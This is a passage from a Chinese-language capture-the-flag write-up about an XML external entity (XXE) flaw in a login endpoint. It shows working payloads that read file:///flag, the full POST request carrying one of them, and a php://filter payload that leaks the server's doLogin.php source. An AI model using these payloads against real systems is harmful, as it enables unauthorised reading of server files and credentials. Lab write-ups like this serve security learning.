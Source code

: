 ```javascript
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
</script>
```

构造payload：

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY penson SYSTEM "file:///flag" >
]>
<user><username>&penson;</username><password>1</password></user>
```

```http
POST /doLogin.php HTTP/1.1
Host: 65f2487a-3114-4754-a3cf-450a6d829bde.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 14 Dec 2019 15:09:41 GMT
If-None-Match: "1542-599ab5e1d7740-gzip"
Cache-Control: max-age=0
Content-Length: 191

<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY penson SYSTEM "file:///flag" >
]>
<user><username>&penson;</username><password>1</password></user>
```

还看到一个师傅写的payload可以读doLogin.php文件：

```xml-dtd
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php">
 ]>
<user><username>&file;</username><password>456</password></user>
```
